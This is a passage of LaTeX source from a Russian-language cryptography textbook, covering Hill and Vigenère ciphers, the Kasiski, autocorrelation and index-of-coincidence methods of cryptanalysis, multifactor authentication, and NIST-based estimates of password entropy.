    22, 7 & 4, 0 & 19, 18 & 19, 14 & 13, 4 & 22, 0 & 18, 19 & 7, 4 & 8, 13 & 21, 4 & 13, 19 & 14, 17 \\
    \hline
    14, 3 & 24, 22 & 9, 21 & 3, 9 & 23, 1 & 10, 8 & 12, 19 & 19, 23 & 18, 3 & 11, 15 & 13, 20 & 2, 19 \\
    o, d & y, w & j, v & d, j & x, b & k, i & m, t & t, x & s, d & l, p & n, u & c, t \\
    \hline
\end{tabular} } \end{center}
\exampleend

Криптосистема Хилла уязвима к частотному криптоанализу\index{криптоанализ!частотный}, который основан на вычислении частот последовательностей символов. Рассмотрим пример <<взлома>> простого варианта криптосистемы Хилла.

\example В английском языке $m = 26$,
    \[ a \rightarrow 0, ~ b \rightarrow 1, ~ \dots, ~ z \rightarrow 25. \]
При шифровании использована криптосистема Хилла с матрицей второго порядка c нулевым вектором $\mathbf{f}$. Наиболее часто встречающиеся в шифртексте биграммы -- RH и NI, в то время как в исходном языке -- TH и HE (артикль THE). Найдём матрицу секретного ключа, составив уравнения
\[
    \begin{array}{l}
        R = 17 = -9 \mod 26, ~~ H = 7 \mod 26, ~~ N = 13 \mod 26, \\
        I = 8 \mod 26, ~~ T = 19 = -7 \mod 26, ~~ E=4 \mod 26; \\
    \end{array}
\] \[
    \left( \begin{array}{cc}
        \text{R} & \text{H} \\
        \text{N} & \text{I}
    \end{array} \right) =
    \left( \begin{array}{cc}
        \text{T} & \text{H} \\
        \text{H} & \text{E}
    \end{array} \right) \cdot
    \left( \begin{array}{cc}
        k_{1,1} & k_{1,2} \\
        k_{2,1} & k_{2,2}
    \end{array} \right) \mod 26;
\] \[
    \left( \begin{array}{cc}
        -9 & 7 \\
        13 & 8
    \end{array} \right) =
    \left( \begin{array}{cc}
        -7 & 7 \\
        7 & 4
    \end{array} \right) \cdot
    \left( \begin{array}{cc}
        k_{1,1} & k_{1,2} \\
        k_{2,1} & k_{2,2}
    \end{array} \right) \mod 26.
\]

Стоит обратить внимание на то, что числа 4, 8, 13 не имеют обратных элементов по модулю 26.
\[
    D = \det \left( \begin{array}{cc} -7 & 7 \\ 7 & 4 \end{array} \right) = -7 \cdot 4 - 7 \cdot 7 = 1 \mod 26.
\] \[
    \left( \begin{array}{cc} -7 & 7 \\ 7 & 4 \end{array} \right)^{-1} =
    D^{-1} \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) =
    \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) \mod 26.
\] \[
    \left( \begin{array}{cc} k_{1,1} & k_{1,2} \\ k_{2,1} & k_{2,2} \end{array} \right) =
    \left( \begin{array}{cc} 4 & -7 \\ -7 & -7 \end{array} \right) \cdot
    \left( \begin{array}{cc} -9 & 7 \\ 13 & 8 \end{array} \right) =
\] \[
    = \left( \begin{array}{cc} 3 & -2 \\ -2 & -1 \end{array} \right) \mod 26.
\]
Найденный секретный ключ
\[
    \left( \begin{array}{cc} \text{D} & \text{Y} \\ \text{Y} & \text{Z} \end{array} \right).
\]
\exampleend

\index{шифр!Хилла|)}


% \subsection{Омофонные замены}
%
% Омофонными заменами называют криптопримитивы, в основе которых лежит замена групп символов открытого текста $M$ на группу символов $C$ с использованием ключа $K$. Такой метод шифрования вносит неоднозначность между $M$ и $C$, это позволяет защититься от методов частотного криптоанализа.
%  \subsection{шифрокоды}
%  Шифрокоды -- это класс шифров сочетающих в себе свойства кодов и помехозащищённости со свойствами шифра и обеспечения конфиденциальности.

\section{Шифр гаммирования Виженера}
\selectlanguage{russian}

Шифр, который известен под именем Виженера, впервые описал Джованни Баттиста Беллазо (\langit{Giovanni Battista Bellaso}) в своей книге \foreignlanguage{italian}{``La cifra del Sig. Giovan Battista Belaso''}.

Рассмотрим один из вариантов этого шифра. В самом простом случае квадратом \textbf{Виженера} называется таблица из циклически сдвинутых копий латинского алфавита, в котором буквы J и V исключены. Первая строка и первый столбец -- буквы латинского алфавита в их обычном порядке, кроме буквы W, которая стоит последней. В строках таблицы порядок букв сохраняется, за исключением циклических переносов. Представим эту таблицу.

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c|*{24}c|}
    \hline
    $\quad \downarrow ~ \rightarrow$ & \textbf{A} & \textbf{B} & \textbf{C} & \textbf{D} & \textbf{E} & \textbf{F} & \textbf{G} & \textbf{H} & \textbf{I} & \textbf{K} & \textbf{L} & \textbf{M} & \textbf{N} & \textbf{O} & \textbf{P} & \textbf{Q} & \textbf{R} & \textbf{S} & \textbf{T} & \textbf{U} & \textbf{X} & \textbf{Y} & \textbf{Z} & \textbf{W} \\
    \hline
    \textbf{A} & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W \\
    \textbf{B} & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A \\
    \textbf{C} & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B \\
    \textbf{D} & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C \\
    \textbf{E} & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D \\
    \textbf{F} & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E \\
    \textbf{G} & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F \\
    \textbf{H} & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G \\
    \textbf{I} & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H \\
    \textbf{K} & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I \\
    \textbf{L} & L & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K \\
    \textbf{M} & M & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L \\
    \textbf{N} & N & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M \\
    \textbf{O} & O & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N \\
    \textbf{P} & P & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O \\
    \textbf{Q} & Q & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P \\
    \textbf{R} & R & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q \\
    \textbf{S} & S & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R \\
    \textbf{T} & T & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S \\
    \textbf{U} & U & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T \\
    \textbf{X} & X & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U \\
    \textbf{Y} & Y & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X \\
    \textbf{Z} & Z & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y \\
    \textbf{W} & W & A & B & C & D & E & F & G & H & I & K & L & M & N & O & P & Q & R & S & T & U & X & Y & Z \\
    \hline
\end{tabular} } \end{center}

Здесь первый столбец используется для ключевой последовательности, а первая строка -- для открытого текста. Общая схема шифрования такова: выбирается некоторая ключевая последовательность, которая периодически повторяется в виде длинной строки. Под ней соответственно каждой букве записываются буквы открытого текста в виде второй строки. Буква ключевой последовательности указывает строку в квадрате Виженера, буква открытого текста указывает столбец в квадрате. Соответствующая буква, стоящая в квадрате на пересечении строки и столбца, заменяет букву открытого текста в шифртексте. Приведём примеры.

\example
Ключевая последовательность состоит из периодически повторяющегося ключевого слова, известного обеим сторонам. Пусть ключевая последовательность состоит из периодически повторяющегося слова THIS, а открытый текст -- слова COMMUNICATIONSYSTEMS (см. таблицу). Пробелы между словами опущены.
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & H & I & S & T & H & I & S & T & H & I & S & T & H & I & S & T & H & I & S \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & X & U & E & O & U & R & U & T & B & R & G & G & A & F & L & N & M & U & L \\
    \hline
\end{tabular} } \end{center}
Результат шифрования приведён в третьей строке: на пересечении строки $T$ и столбца $C$ стоит буква $X$, на пересечении строки $H$ и столбца $O$ стоит буква $X$, на пересечении строки $I$ и столбца $M$ стоит буква $U$ и~т.\,д.
\exampleend

Виженер считал возможным в качестве ключевой последовательности использовать открытый текст с добавлением начальной буквы, известной легальным пользователям. Этот вариант используется во втором примере.

\example
Ключевая последовательность образуется с помощью открытого текста. Стороны договариваются о первой букве ключа, а следующие буквы состоят из открытого текста. Пусть в качестве первой буквы выбрана буква $T$. Тогда для предыдущего примера таблица шифрования имеет вид:
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & Q & A & Z & G & H & X & L & C & T & C & Y & B & F & P & P & M & Z & Q & E \\
    \hline
\end{tabular} } \end{center}
\exampleend

\example 
Пусть ключевая последовательность образуется с помощью шифртекста. Стороны договариваются о первой букве ключа. В отличие от предыдущего случая, следующая буква ключа -- это результат шифрования первой буквы текста и~т.\,д. Пусть в качестве первой буквы выбрана буква $T$. Тогда приведённая в предыдущем примере таблица шифрования примет такой вид:
\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|l|*{20}c|}
    \hline
    Ключ            & T & X & K & X & H & C & P & Z & A & A & T & C & Q & D & X & S & L & E & I & U \\
    Открытый текст  & C & O & M & M & U & N & I & C & A & T & I & O & N & S & Y & S & T & E & M & S \\
    Шифртекст      & X & K & X & H & C & P & Z & A & A & T & C & Q & D & X & S & L & E & I & U & N \\
    \hline
\end{tabular} } \end{center}
\exampleend


\section[Криптоанализ полиалфавитных шифров]{Криптоанализ полиалфавитных \protect\\ шифров}
\selectlanguage{russian}

При дешифровании полиалфавитных шифров криптоаналитику необходимо сначала определить период, для предполагаемого периода преобразовать шифрограмму в матрицу, затем использовать для каждого столбца матрицы методы криптоанализа моноалфавитных шифров. В случае неудачи необходимо изменить предполагаемый период.

Известно несколько методов криптоанализа для нахождения периода. Из них наиболее популярными являются метод Касиски, автокорреляционный метод и метод индекса совпадений.


\subsection{Метод Касиски}

Метод Касиски, созданный Фридрихом Вильгельмом Касиски (\langde{Friedrich Wilhelm Kasiski}, 1805--1881, \cite{Kasiski:1863}), состоит в том, что в шифртексте находят одинаковые сегменты длиной не менее трёх символов и вычисляют расстояния между начальными символами последовательных сегментов. Далее находят наибольший общий делитель этих расстояний. Считается, что предполагаемый период $n$ является кратным этому значению. Обычно нахождение периода осуществляется в несколько этапов.

После того как выбирается наиболее правдоподобное значение периода, криптоаналитик переходит к дешифрованию. Приведём пример использования метода Касиски.

\example
Пусть шифруется следующий текст без учёта знаков препинания и различия строчных и прописных букв. Пробелы оставлены в тексте для удобства чтения, хотя при шифровании пробелы были опущены.

\begin{quote}
    \noindent \texttt{Игры различаются по содержанию характерным особенностям а также по тому какое место они занимают в жизни детей их воспитании и обучении Каждый отдельный вид игры имеет многочисленные варианты Дети очень изобретательны Они усложняют и упрощают известные игры придумывают новые правила и детали Например сюжетно ролевые игры создаются самими детьми но при некотором руководстве воспитателя Их основой является самодеятельность Такие игры иногда называют творческими сюжетно ролевыми играми Разновидностью сюжетно ролевой игры являются строительные игры и игры драматизации В практике воспитания нашли своё место и игры с правилами которые создаются для детей взрослыми К ним относятся дидактические подвижные и игры забавы В основе их лежит четко определенное программное содержание дидактические задачи и целенаправленное обучение Для хорошо организованной жизни детей в детском саду необходимо разнообразие игр так как только при этих условиях будет обеспечена детям возможность интересной и содержательной деятельности Многообразие типов видов форм игр неизбежно как неизбежно многообразие жизни которую они отражают как неизбежно многообразие несмотря на внешнюю схожесть игр одного типа модели}
\end{quote}

Для шифрования выберем период $n=4$ и следующие 4 моноалфавитных шифра замены:

\begin{center} \begin{tabular}{|lcl|}
    \hline
    абвгдежзийклмнопрстуфхцчшщъыьэюя & -- & алфавит \\
    йклмнопрстуфхцчшщъыьэюяабвгдежзи & -- & 1-й шифр \\
    гаэъчфсолиевяьщцурнкздбюышхтпмйж & -- & 2-й шифр \\
    бфзънаужщмятешлюсдчкэргцйьпвхиыо & -- & 3-й шифр \\
    пъерыжсьзтэиуюйфякхалцбмчвншгощд & -- & 4-й шифр \\
    \hline
\end{tabular} \end{center}

Тогда шифрованный текст примет следующий вид (в шифртексте пробелов нет, они вставлены для удобства чтения):

\begin{quote}
\noindent \texttt{съсш щгжисюбщыро фч рлыоуупцлы цйубэыфсюдя лкчааюцщдхия б хйеуж шщ чйхк япуща уорчй чьщьйьщуййч еплжюсчахоищцлщдфснбюсл щ йккцжцлщ эйсншт щчыовхюди ззн лъяд лежон еючълмсртжцьвж лгсзйьчш нфчз чюаюе лжйкуахйнаиеьв йцл ккфщуюийч з ьцсйвгых созжъншшо лъяд цсзнкешлгых цщзшо цспллтп с чахйвщ юйцсзхфс кзсахцщ сйффзшо лъяд рльнгыхъж дпхлез нфчгхл шй шущ юоелхчулу щкяйлщнкыэа ечрюзыгчжфж щц чршйлщм длвожыро кйялыожчжфпшйънх хйещж съсш сьлрнг шпртзпзн чечуцжъещус рысоншй щщтжлтез съспхл спрьлесчшйънхщ ъйужыьл ячваечи щрщт оефжыхъж дхщщщховхюдф щрщт щ змув ыщгепылжпялщ е шубэыляж лщдфснбюсж шпбвщ клща уорчй с лъяд р юяйэщийящ эчнлядф дйрчбщыро ыфжнжыфмерулкфтез у ьщу чншйъжчки чщыйечзафдэсф юйнэщсцта з съсш ргфплт з йъьлео лр иосщх афчэч щюяочаиоьшйо цсймубухьлжъщнжщсбюсфнзнгяхсюакула ьйчбмс лгжффшпшубеффшючф лъьюаюсф нии длячыл йщъбюсолейьшйт сщьцл нжыфм е нфчкуще кйчк юощфцччщуч убьцщлъщгжзо лъя ыгя эйе чйфпяй шущоылр аъвлесжр ъьчах чаакшфцжцг нжыже ечоейпьлкып щюыфсжъьлтс рлыоуупыфтгцщм ыожчжфпшйънщуцщъйчаспрла хсцле ллнйл злях лъя цфщькфуюч ебэ цфщькфуючяшймщлъщгжзо сщьцл яйыщсазщшз чнсппгых угяюолжъосшй хьлрчщфяйощжцфдучнсд цгзюоышщзррйпфдхе лъя ччшймщ чзшг ейнфтз}
\end{quote}

Теперь проведём криптоанализ, используя метод Касиски. Предварительно подсчитаем число появлений каждой буквы в шифртексте. Эти данные приведём в таблице, где $i$ в первой строке означает букву алфавита, а $f_{i}$ во второй строке -- это число появлений этой буквы в шифртексте. Всего в нашем шифртексте имеется $L=1036$ букв.

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
    \hline
    $i$     & А & Б & В & Г & Д & Е & Ж & З & И & Й & К & Л & М & Н & О & П \\
    $f_{i}$ & 26 & 15 & 11 & 21 & 20 & 36 & 42 & 31 & 13 & 56 & 23 & 70 & 10 & 33 & 36 & 25 \\
    \hline
\end{tabular} } \end{center}

\begin{center} \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
    \hline
    $i$     & Р & С & Т & У & Ф & Х & Ц & Ч & Ш & Щ & Ъ & Ы & Ь & Э & Ю & Я \\
    $f_{i}$ & 28 & 54 & 15 & 36 & 45 & 32 & 31 & 57 & 35 & 72 & 32 & 35 & 27 & 11 & 30 & 28 \\
    \hline
\end{tabular} } \end{center}

В рассматриваемом примере проведённый анализ показал следующее.
\begin{itemize}
    \item Сегмент СЪС встречается в позициях $1, 373, 417, 613$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            373 - 1 = 372 = 4 \cdot 3 \cdot 31, \\
            417 - 373= 44 = 4 \cdot 11, \\
            613 - 417 = 196 = 4 \cdot 49. \\
        \end{array} \]
        Наибольший общий делитель равен $4$. Делаем вывод, что период кратен $4$.
    \item Сегмент ЩГЖ встречается в позициях $5, 781, 941$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            781 - 5 = 776 = 8 \cdot 97, \\
            941 - 781 = 160 = 32 \cdot 5. \\
        \end{array} \]
        Делаем вывод, что период кратен $8$, что не противоречит выводу для предыдущих сегментов (кратность $4$).
    \item Сегмент ЫРО встречается в позициях $13, 349, 557$. Соответствующие расстояния равны
        \[ \begin{array}{l}
            349 - 13 = 336 = 16 \cdot 3 \cdot 7, \\
            557 - 349 = 208 = 16 \cdot 13. \\
        \end{array} \]
        Делаем вывод, что период кратен 4.
\end{itemize}

Предположение о том, что период $n=4$, оказалось правильным.
\exampleend


\subsection{Автокорреляционный метод}

Автокорреляционный метод состоит в том, что исходный шифртекст $C_{1},C_{2}, \ldots, C_{L}$ выписывается в строку, а под ней выписываются строки, полученные сдвигом вправо на $t =1, 2, 3, \ldots$ позиций. Для каждого $t$ подсчитывается число $n_{t}$ индексов $i \in \left[ {1,L - t} \right]$ таких, что $C_i  = C_{i + t}$.

Вычисляются автокорреляционные коэффициенты:
    \[ \gamma_t  = \frac{n_t}{L - t}. \]
Для сдвигов $t$, кратных периоду, коэффициенты должны быть заметно больше, чем для $t$, не кратных периоду.

\example
Для рассматриваемой криптограммы выделим те значения $t$, для которых $\gamma _t~>~0{,}05.$ Получим ряд чисел:

\begin{quote}
    \noindent \texttt{4, 12, 16, 24, 28, 32, 36, 40, 44, 48, 52, 56, 64, 68, 72, 76, 80, 84, 88, 92, 96, 104, 108, 112, 116, 124, 128, 132, 140, 148, 152, 156, 160, 164, 168, 172, 176, 180, 184, 188, 192, 196, 200, 204, 208, 216, 220, 224, 228, 252, 256, 260, 264, 268, 272, 276, 280, 284, 288, 292, 296, 300, 304, 308, 312, 316, 320, 324, 328, 344, 348, 356, 364, 368, 372, 376, 380, 384, 388, 396, 400, 404, 408, 412, 420, 424, 432, 436, 440, 448, 452, 456, 460, 462, 468, 472, 476, 480, 484, 496, 500, 508, 512, 516.}
\end{quote}

Все эти числа, кроме 462, делятся на 4. Выбираем значение $n=4$, которое верно и совпадает со значением, полученным по методу Касиски.
\exampleend


\subsection{Метод индекса совпадений}

Метод индекса совпадений был описан Уильямом Фредериком Фридманом в 1922 году (\langen{William Frederick Friedman}, 1891--1969, \cite{Friedman:1922}). При применении метода индекса совпадений подсчитывают число появлений букв в случайной последовательности
    \[ \mathbf{X} = (X_1 ,X_2 , \ldots , X_L ) \]
и вычисляют вероятность того, что два случайных элемента этой последовательности совпадают. Эта величина называется \emph{индексом совпадений} и обозначается $I_{c}(\mathbf{x}),$ где
    \[ I_{c} (\mathbf{x}) = \frac{{\sum\limits_{i = 1}^A {f_i (f_i  - 1)} }} {{L(L - 1)}}, \]
$f_{i}$ -- число появлений буквы $i$ в последовательности $\mathbf{x}$, $A$ -- число букв в алфавите.

Значение этого индекса используется в криптоанализе полиалфавитных шифров для приближённого определения периода по формуле:
    \[ m \approx \frac{{k_p  - k_r }} {{I_{c} (\mathbf{x}) - k_r  + \frac{{k_p  - I_{c} (\mathbf{x})}} {L}}}, \]
где
    \[ k_r  = \frac{1}{A}, ~~ k_p  = \sum\limits_{i=1}^A p_i^2, \]
$p_i $ -- частота появления буквы $i$ в естественном языке.
Теоретическое обоснование метода индекса совпадений не является простым. Оно приведено в приложении~\ref{chap:coincide-index} к данному пособию.

\example
В рассматриваемом выше примере приведены значения $f_{i}$. Для русского языка:
    \[ A=32, ~ k_{r} = \frac{1}{32} \approx 0.03125, ~ k_{p} \approx 0.0529. \]
Проведя вычисления, получаем $m \approx 3.376$. Полученное по формуле приближённое значение m достаточно близко к значению периода $n=4$.
\exampleend 

С развитием ЭВМ многие классические полиалфавитные шифры перестали быть устойчивыми к криптоатакам.


\input{perfect_secure_systems}

\subimport*{block-ciphers/}{index}

\input{generators}

\input{stream-ciphers}

\subimport*{hash-functions/}{index}

\subimport*{public-key/}{index}

\subimport*{protocols/}{index}

\subimport*{secret-sharing/}{index}

\subimport*{secure-systems-examples/}{index}

\chapter{Аутентификация пользователя}


\section{Многофакторная аутентификация}

Для защищённых приложений применяется \emph{многофакторная} аутентификация одновременно по факторам различной природы:
\begin{enumerate}
    \item Свойство, которым обладает субъект. Например: биометрия, природные уникальные отличия (лицо, радужная оболочка глаз, папиллярные узоры, последовательность ДНК).
    \item Знание -- информация, которую знает субъект. Например: пароль, PIN (Personal Identification Number).
    \item Владение -- вещь, которой обладает субъект. Например: электронная или магнитная карта, флэш-память.
%    \item Факторы присвоения. Например, номер машины, RFID-метка.
\end{enumerate}

В обычных массовых приложениях из-за удобства использования применяется аутентификация только по \emph{паролю}\index{пароль}, который является общим секретом пользователя и информационной системы. Биометрическая аутентификация по отпечаткам пальцев применяется существенно реже. Как правило, аутентификация по отпечаткам пальцев является дополнительным, а не вторым обязательным фактором (тоже из-за удобства её использования).

%Так же явно или неявно используется аутентификация по факторам:
%\begin{enumerate}
%    \item Социальная сеть. Доверие к индивидууму в личном или интернет общении, на основании общих связей.
%    \item Географическое положение. Например, для проверки оплаты товаров по кредитной карте.
%    \item Время. Доступ к сервисам или местам только в определённое время.
%    \item И др.
%\end{enumerate}


\section[Энтропия и криптостойкость паролей]{Энтропия и криптостойкость \protect\\ паролей}

Стандартный набор символов паролей, которые можно набрать на клавиатуре, используя английские буквы и небуквенные символы, состоит из $D=94$ символов. При длине пароля $L$ символов и предположении равновероятного использования символов энтропия паролей равна
    \[ H = L \log_2 D. \]

Клод Шеннон, исследуя энтропию символов английского текста, изучал вероятность успешного предсказания людьми следующего символа по первым нескольким символам слов или текста. В результате Шеннон получил оценку энтропии первого символа $s_1$ текста порядка $H(s_1) \approx 4{,}6$--$4{,}7$ бит/символ и оценки энтропий последующих символов, постепенно уменьшающиеся до $H(s_9) \approx 1{,}5$ бит/символ для 9-го символа. Энтропия для длинных текстов литературных произведений получила оценку $H(s_\infty) \approx 0{,}4$ бит/символ.

Статистические исследования баз паролей показывают, что наиболее часто используются буквы <<a>>, <<e>>, <<o>>, <<r>> и цифра <<1>>.

NIST (Национальный институт стандартов и технологий США, \langen{National Institute of Standards and Technology})  использует следующие рекомендации для оценки энтропии паролей\index{энтропия!пароля}, создаваемых людьми.
\begin{enumerate}
    \item Энтропия первого символа $H(s_1) = 4$ бит/символ.
    \item Энтропия со 2-го по 8-й символы $H(s_{i}) = 2$ бит/символ, $2 \leq i \leq 8$.
    \item Энтропия с 9-го по 20-й символы $H(s_{i}) = 1{,}5$ бит/символ, $9 \leq i \leq 20$.
    \item Энтропия с 21-го символа $H(s_{i}) = 1$ бит/символ, $i \geq 21$.
    \item Проверка композиции на использование символов разных регистров и небуквенных символов добавляет до 6-ти бит энтропии пароля.
    \item Словарная проверка на слова и часто используемые пароли добавляет до 6 бит энтропии для коротких паролей. Для 20-символьных и более длинных паролей прибавка к энтропии -- 0 бит.
\end{enumerate}

Для оценки энтропии пароля нужно сложить энтропии символов $H(s_i)$ и сделать дополнительные надбавки, если пароль удовлетворяет тестам на композицию и отсутствует в словаре.

\begin{table}[!ht]
    \caption{Оценка NIST предполагаемой энтропии паролей\label{tab:password-entropy}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c||c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{\medskip \centering Длина пароля, символы}} & \multicolumn{3}{|c||}{\parbox{6cm}{\centering Энтропия паролей пользователей по критериям NIST}} & \multirow{2}{*}{\parbox{3cm}{\centering Энтропия случайных равновероятных паролей}} \\
        \cline{2-4}
        & \parbox{1.5cm}{\centering Без проверок} & \parbox{2cm}{\centering Словарная проверка} & \parbox{3cm}{\centering Словарная и композиционная проверка} & \\
        \hline
        4  & 10 & 14 & 16 & 26.3 \\
        6  & 14 & 20 & 23 & 39.5 \\
        8  & 18 & 24 & 30 & 52.7 \\
        10 & 21 & 26 & 32 & 65.9 \\
        12 & 24 & 28 & 34 & 79.0 \\
        16 & 30 & 32 & 38 & 105.4 \\
        20 & 36 & 36 & 42 & 131.7 \\
        24 & 40 & 40 & 46 & 158.0 \\
        30 & 46 & 46 & 52 & 197.2 \\
        40 & 56 & 56 & 62 & 263.4 \\
        \hline
    \end{tabular} }
\end{table}

В таблице~\ref{tab:password-entropy} приведена оценка NIST на величину энтропии пользовательских паролей в зависимости от их длины, и приведено сравнение с энтропией случайных паролей с равномерным распределением символов из набора в $D=94$ символов клавиатуры. Вероятное число попыток для подбора пароля составляет $O(2^H)$. Из таблицы видно, что по критериям NIST энтропия реальных паролей в 2--4 раза меньше энтропии случайных паролей с равномерным распределением символов.

\example
Оценим общее количество существующих паролей. Население Земли -- 7 млрд. Предположим, что всё население использует компьютеры и Интернет, и у каждого человека по 10 паролей. Общее количество существующих паролей -- $7 \cdot 10^{10} \approx 2^{36}$.

Имея доступ к наиболее массовым интернет-сервисам с количеством пользователей десятки и сотни миллионов, в которых пароли часто хранятся в открытом виде из-за необходимости обновления ПО и, в частности, выполнения аутентификации, мы:
\begin{enumerate}
	\item имеем базу паролей, покрывающую существенную часть пользователей; 
	\item можем статистически построить правила генерирования паролей.
\end{enumerate}

Даже если пароль хранится в защищённом виде, то при вводе пароль, как правило, в открытом виде пересылается по Интернету, и все преобразования пароля для аутентификации осуществляет интернет-сервис, а не веб-браузер. Следовательно, интернет-сервис имеет доступ к исходному паролю.
\exampleend

В 2002 г. был подобран ключ для 64-битного блочного шифра RC5 сетью персональных компьютеров \texttt{distributed.net}, выполнявших вычисления в фоновом режиме. Суммарное время вычислений всех компьютеров -- 1757 дней, было проверено 83\% пространства всех ключей. Это означает, что пароли с оценочной энтропией менее 64 бит, то есть \emph{все пароли} до 40 символов по критериям NIST, могут быть подобраны в настоящее время. Конечно, с оговорками на то, что 1) нет ограничений на количество и частоту попыток аутентификаций, 2) алгоритм генерации вероятных паролей эффективен.

Строго говоря, использование даже 40-символьного пароля для аутентификации или в качестве ключа блочного шифрования является небезопасным.


\subsubsection{Число паролей}

Приведём различные оценки числа паролей, создаваемых людьми. Чаще всего такие пароли основаны на словах или закономерностях естественного языка. В английском языке всего около $1\ 000\ 000 \approx 2^{20}$ слов, включая термины.

%http://www.springerlink.com/content/bh216312577r6w64/fulltext.pdf
%http://www.antimoon.com/forum/2004/4797.htm

Используемые слоги английского языка имеют вид V, CV, VC, CVV, VCC, CVC, CCV, CVCC, CVCCC, CCVCC, CCCVCC, где C -- согласная (consonant), V -- гласная (vowel). 70\% слогов имеют структуру VC или CVC. Общее число слогов $S = 8000 \dots 12000$. Средняя длина слога -- 3 буквы.

Предполагая равновероятное распределение всех слогов английского языка, для числа паролей из $r$ слогов получим верхнюю оценку
    \[ N_1 = S^r = 2^{13 r} \approx 2^{4.3 L_1}. \]
Средняя длина паролей составит:
    \[ L_1 \approx 3 r. \]

Теперь предположим, что пароли могут состоять только из 2--3 буквенных слогов вида CV, VC, CVV, VCC, CVC, CCV с равновероятным распределением символов. Подсчитаем число паролей $N_2$, которые могут быть построены из $r$ таких слогов. В английском алфавите число гласных букв $n_v = 10$, согласных $n_c = 16$, $n = n_v + n_c = 26$. Верхняя оценка числа $r$-слоговых паролей:
    \[ N_2 = (n_c n_v + n_v n_c + n_c n_v n_v + n_v n_c n_c + n_c n_v n_c + n_c n_c n_v)^r \approx \]
        \[ \approx \left( n_c n_v(3 n_c + n_v) \right)^r, \]
    \[ N_2 \approx \left( \frac{n^3}{2} \right)^r \approx 2^{13 r} \approx 2^{4.3 L_2}. \]
Средняя длина паролей:
    \[ L_2 = \frac{n_c n_v(2 + 2 + 3 n_v + 3 n_c + 3 n_c + 3 n_c)}{n_c n_v (1 + 1 + n_v + n_c + n_c + n_c)} \cdot r \approx 3 r. \]

Как видно, в обоих предположениях получились одинаковые оценки для числа и длины паролей.

Подсчитаем верхние оценки числа паролей из $L$ символов, предполагая равномерное распределение символов из алфавита мощностью $D$ символов: a) $D_1 = 26$ строчных букв, б) все $D_2 = 94$ печатных символа клавиатуры (латиница и небуквенные символы):
    \[ N_3 = D_1^L \approx 2^{4.7 L}, \]
    \[ N_4 = D_2^L \approx 2^{6.6 L}. \]

\begin{table}[!ht]
    \caption{Различные верхние оценки числа паролей\label{tab:password-number}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{|c||c|c|c|}
        \hline
        \multirow{2}{*}{\parbox{1.5cm}{\medskip\medspace \centering Длина пароля}} & \multicolumn{3}{|c|}{Число паролей} \\
        \cline{2-4}
            & \parbox{3.5cm}{\medspace \centering На основе слоговой композиции} &
            \parbox{3cm}{\medspace\centering Алфавит $D=26$ символов} &
            \parbox{3cm}{\medspace \centering Алфавит $D=94$ символа} \\
        \hline
        \rule{0pt}{2.5ex}$6$  & $2^{26}$ & $2^{28}$ & $2^{39}$ \\
        9  & $2^{39}$ & $2^{42}$ & $2^{59}$ \\
        12 & $2^{52}$ & $2^{56}$ & $2^{79}$ \\
        15 & $2^{65}$ & $2^{71}$ & $2^{98}$ \\
        \hline
        \rule{0pt}{2.5ex} 21 & $2^{91}$ & $2^{99}$ & $2^{137}$ \\
        \hline
